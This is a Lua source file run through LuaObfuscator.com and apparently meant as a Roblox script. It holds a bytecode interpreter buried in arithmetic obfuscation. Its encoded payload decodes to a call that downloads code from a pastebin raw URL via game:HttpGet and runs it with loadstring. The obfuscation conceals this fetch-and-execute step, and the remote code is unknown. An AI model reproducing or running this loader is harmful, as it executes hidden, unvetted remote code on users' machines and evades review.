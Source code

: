--[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v81=0;local v82;while true do if (v81==0) then v82=v2(v0(v30,16));if v19 then local v104=v5(v82,v19);v19=nil;return v104;else return v82;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v83=(v31/((5 -3)^(v32-(2 -1))))%(2^(((v33-1) -(v32-((1 -0) -0))) + (2 -1))) ;return v83-(v83%(878 -(282 + 595))) ;else local v84=(621 -(555 + 64))^(v32-(932 -(857 + (1139 -(68 + 997))))) ;return (((v31%(v84 + v84))>=v84) and (1638 -(1523 + 114))) or (568 -(367 + 201)) ;end end local function v21() local v34=1270 -(226 + 1044) ;local v35;while true do if (v34==0) then v35=v1(v16,v18,v18);v18=v18 + ((1 + 3) -3) ;v34=118 -(32 + 85) ;end if (v34==(1 + (957 -(892 + 65)))) then return v35;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (4 -2) );v18=v18 + (3 -1) ;return (v37 * (469 -213)) + v36 ;end local function v23() local v38=(942 -592) -(87 + 263) ;local v39;local v40;local v41;local v42;while true do if (v38==((326 -146) -(67 + 113))) then v39,v40,v41,v42=v1(v16,v18,v18 + 3 );v18=v18 + 3 + 1 ;v38=2 -1 ;end if (v38==(1 + 0)) then return (v42 * 16777216) + (v41 * (260471 -194935)) + (v40 * (1208 -(802 + 150))) + v39 ;end end end local function v24() local v43=v23();local v44=v23();local v45=1 + 0 ;local v46=(v20(v44,1 + 0 ,1017 -(915 + 82) ) * ((5 -3)^(19 + 13))) + v43 ;local v47=v20(v44,7 + 14 ,40 -9 );local v48=((v20(v44,804 -(201 + (2703 -2132)) )==(1139 -(116 + 1022))) and  -(1188 -(1069 + 118))) or ((1 + 1) -1) ;if (v47==((0 -0) -0)) then if (v46==(0 + 0)) then return v48 * (0 -0) ;else local v92=(1747 -(760 + 987)) + 0 ;while true do if (0==v92) then v47=1 + 0 ;v45=(2704 -(1789 + 124)) -(368 + 423) ;break;end end end elseif (v47==(6433 -4386)) then return ((v46==(18 -(10 + 8))) and (v48 * (((769 -(745 + 21)) -2)/(442 -(416 + 26))))) or (v48 * NaN) ;end return v8(v48,v47-1023 ) * (v45 + (v46/((6 -4)^52))) ;end local function v25(v49) local v50=(0 -0) + 0 ;local v51;local v52;while true do if ((5 -3)==v50) then v52={};for v93=3 -2 , #v51 do v52[v93]=v2(v1(v3(v51,v93,v93)));end v50=3;end if (v50==1) then v51=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;v50=1 + (1818 -(1703 + 114)) ;end if (v50==(3 + 0)) then return v6(v52);end if (v50==(1055 -(87 + 968))) then v51=nil;if  not v49 then local v103=0 -0 ;while true do if (v103==(0 + 0)) then v49=v23();if (v49==(0 -0)) then return "";end break;end end end v50=1414 -(447 + 966) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 0 -0 ;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do if (v53==(1990 -(582 + 1408))) then local v88=(function() return 0 -0 ;end)();local v89=(function() return;end)();while true do if (v88==(572 -(426 + 146))) then v89=(function() return 0 + 0 ;end)();while true do if (v89==(0 -0)) then local v122=(function() return 0 -0 ;end)();while true do if (0==v122) then v54=(function() return function(v171,v172,v173) local v174=(function() return 0;end)();local v175=(function() return;end)();while true do if (0~=v174) then else v175=(function() return 1456 -(282 + 1174) ;end)();while true do if (0==v175) then local v180=(function() return 1824 -(1195 + 629) ;end)();while true do if (v180~=(0 -0)) then else v171[v172-#":" ]=(function() return v173();end)();return v171,v172,v173;end end end end break;end end end;end)();v55=(function() return {};end)();v122=(function() return 1 -0 ;end)();end if (v122~=1) then else v89=(function() return 242 -(187 + 54) ;end)();break;end end end if (v89==(1252 -(721 + 530))) then v56=(function() return {};end)();v53=(function() return 1272 -(945 + 326) ;end)();break;end end break;end end end if (v53~=2) then else local v90=(function() return 0 -0 ;end)();local v91=(function() return;end)();while true do if ((0 + 0)~=v90) then else v91=(function() return 0;end)();while true do if (v91==(780 -(162 + 618))) then v60=(function() return {};end)();for v130= #"[",v59 do local v131=(function() return 0 + 0 ;end)();local v132=(function() return;end)();local v133=(function() return;end)();local v134=(function() return;end)();while true do if (v131==(1501 -(1408 + 92))) then v134=(function() return nil;end)();while true do if (v132==(1086 -(461 + 625))) then v133=(function() return v21();end)();v134=(function() return nil;end)();v132=(function() return 1 + 0 ;end)();end if ((1 + 0)==v132) then if (v133== #"{") then v134=(function() return v21()~=(0 -0) ;end)();elseif (v133==(2 -0)) then v134=(function() return v24();end)();elseif (v133~= #"nil") then else v134=(function() return v25();end)();end v60[v130]=(function() return v134;end)();break;end end break;end if (v131~=(0 + 0)) then else v132=(function() return 0 + 0 ;end)();v133=(function() return nil;end)();v131=(function() return 1 + 0 ;end)();end end end v91=(function() return 1;end)();end if (v91==(1637 -(1373 + 263))) then v58[ #"-19"]=(function() return v21();end)();v53=(function() return 1003 -(451 + 549) ;end)();break;end end break;end end end if (v53==1) then v57=(function() return {};end)();v58=(function() return {v55,v56,nil,v57};end)();v59=(function() return v23();end)();v53=(function() return 2 -0 ;end)();end if (v53~=(4 -1)) then else for v95= #">",v23() do local v96=(function() return 0;end)();local v97=(function() return;end)();while true do if ((1384 -(746 + 638))~=v96) then else v97=(function() return v21();end)();if (v20(v97, #"\\", #"\\")==(0 + 0)) then local v124=(function() return 0 + 0 ;end)();local v125=(function() return;end)();local v126=(function() return;end)();local v127=(function() return;end)();while true do if (v124==1) then local v163=(function() return 0 -0 ;end)();local v164=(function() return;end)();while true do if (v163==(1145 -(466 + 679))) then v164=(function() return 0 -0 ;end)();while true do if (v164~=0) then else v127=(function() return {v22(),v22(),nil,nil};end)();if (v125==0) then local v181=(function() return 1900 -(106 + 1794) ;end)();local v182=(function() return;end)();while true do if ((0 + 0)~=v181) then else v182=(function() return 0;end)();while true do if (v182==0) then v127[ #"xnx"]=(function() return v22();end)();v127[ #".com"]=(function() return v22();end)();break;end end break;end end elseif (v125== #"/") then v127[ #"xnx"]=(function() return v23();end)();elseif (v125==2) then v127[ #"nil"]=(function() return v23() -((343 -(218 + 123))^(1597 -(1535 + 46))) ;end)();elseif (v125== #"gha") then local v188=(function() return 0;end)();local v189=(function() return;end)();while true do if ((0 + 0)==v188) then v189=(function() return 0 + 0 ;end)();while true do if ((114 -(4 + 110))~=v189) then else v127[ #"gha"]=(function() return v23() -((562 -(306 + 254))^16) ;end)();v127[ #"http"]=(function() return v22();end)();break;end end break;end end end v164=(function() return 1 + 0 ;end)();end if (v164~=(1 -0)) then else v124=(function() return 1469 -(899 + 568) ;end)();break;end end break;end end end if (v124==(3 + 0)) then if (v20(v126, #"xnx", #"gha")== #".") then v127[ #"xnxx"]=(function() return v60[v127[ #"0313"]];end)();end v55[v95]=(function() return v127;end)();break;end if (v124==0) then v125=(function() return v20(v97,2 + 0 , #"asd");end)();v126=(function() return v20(v97, #"asd1",14 -8 );end)();v124=(function() return 1;end)();end if (v124~=2) then else if (v20(v126, #"\\", #".")== #"]") then v127[605 -(268 + 335) ]=(function() return v60[v127[168 -(122 + 44) ]];end)();end if (v20(v126,2,2 -0 )== #"|") then v127[ #"gha"]=(function() return v60[v127[ #"91("]];end)();end v124=(function() return 3;end)();end end end break;end end end for v98= #",",v23() do v56,v98,v28=(function() return v54(v56,v98,v28);end)();end return v58;end end end local function v29(v61,v62,v63) local v64=v61[3 -2 ];local v65=v61[2];local v66=v61[3 + 0 ];return function(...) local v67=v64;local v68=v65;local v69=v66;local v70=v27;local v71=1;local v72= -1;local v73={};local v74={...};local v75=v12("#",...) -(1 -0) ;local v76={};local v77={};for v85=65 -(30 + 35) ,v75 do if (v85>=v69) then v73[v85-v69 ]=v74[v85 + 1 ];else v77[v85]=v74[v85 + 1 + 0 + 0 ];end end local v78=(v75-v69) + (1258 -(1043 + 214)) ;local v79;local v80;while true do v79=v67[v71];v80=v79[1];if (v80<=(11 -8)) then if (v80<=1) then if ((4029<=4853) and (v80==0)) then v77[v79[2]]();else local v105=v79[1214 -(323 + 889) ];local v106,v107=v70(v77[v105](v13(v77,v105 + 1 ,v79[7 -4 ])));v72=(v107 + v105) -(581 -(361 + 219)) ;local v108=320 -(53 + 267) ;for v128=v105,v72 do local v129=0 + 0 ;while true do if ((v129==(413 -(15 + 398))) or (516>3434)) then v108=v108 + ((815 + 168) -(18 + 964)) ;v77[v128]=v106[v108];break;end end end end elseif (v80==(7 -5)) then v77[v79[2]]=v63[v79[2 + 1 ]];else local v111=0;local v112;local v113;local v114;local v115;local v116;while true do if (v111==((1504 -(363 + 1141)) + 0)) then v112=nil;v113,v114=nil;v115=nil;v116=nil;v77[v79[2]]={};v71=v71 + 1 + 0 ;v111=851 -(20 + 830) ;end if (v111==((1585 -(1183 + 397)) + 1)) then do return;end break;end if (v111==(130 -(116 + 10))) then v72=(v114 + v116) -(1 + (0 -0)) ;v112=0;for v168=v116,v72 do v112=v112 + 1 ;v77[v168]=v113[v112];end v71=v71 + (739 -(542 + 196)) ;v79=v67[v71];v116=v79[3 -1 ];v111=2 + 3 ;end if (v111==(3 + 2)) then v77[v116]=v77[v116](v13(v77,v116 + 1 + 0 ,v72));v71=v71 + (2 -(1 + 0)) ;v79=v67[v71];v77[v79[4 -2 ]]();v71=v71 + (1552 -(842 + 284 + 425)) ;v79=v67[v71];v111=411 -(118 + (2262 -(1913 + 62))) ;end if ((4046>=3033) and (v111==((2 + 1) -2))) then v79=v67[v71];v77[v79[1123 -(118 + 1003) ]]=v63[v79[8 -5 ]];v71=v71 + (378 -(142 + 235)) ;v79=v67[v71];v77[v79[9 -7 ]]=v63[v79[(2 -1) + (1935 -(565 + 1368)) ]];v71=v71 + (978 -(553 + (1594 -1170))) ;v111=3 -1 ;end if ((v111==(3 + 0)) or (2719<=1447)) then v79=v67[v71];v77[v79[2]]=v79[(1664 -(1477 + 184)) + 0 ];v71=v71 + 1 + 0 ;v79=v67[v71];v116=v79[1 + 1 ];v113,v114=v70(v77[v116](v13(v77,v116 + 1 + 0 ,v79[6 -3 ])));v111=11 -7 ;end if (v111==(4 -2)) then v79=v67[v71];v116=v79[1 + (1 -0) ];v115=v77[v79[3 + 0 ]];v77[v116 + (857 -(564 + 292)) ]=v115;v77[v116]=v115[v79[4]];v71=v71 + ((6 -2) -3) ;v111=3;end end end elseif (v80<=(758 -((719 -480) + 514))) then if (v80==(2 + 2)) then v77[v79[1331 -(797 + 532) ]]=v79[(307 -(244 + 60)) + 0 ];else local v119=0 + 0 ;local v120;local v121;while true do if ((v119==(0 -(0 + 0))) or (4134<3926)) then v120=v79[(1680 -(41 + 435)) -(373 + 829) ];v121=v77[v79[3]];v119=732 -(476 + 255) ;end if (((2132 -(938 + 63)) -(369 + 761))==v119) then v77[v120 + 1 + 0 ]=v121;v77[v120]=v121[v79[(5 + 1) -2 ]];break;end end end elseif ((v80<=(10 -4)) or (164>=2785)) then do return;end elseif (v80>(245 -(64 + 174))) then local v135=v79[1 + 1 ];v77[v135]=v77[v135](v13(v77,v135 + (1 -0) ,v72));else v77[v79[338 -(144 + 192) ]]={};end v71=v71 + (217 -(42 + 174)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00037Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
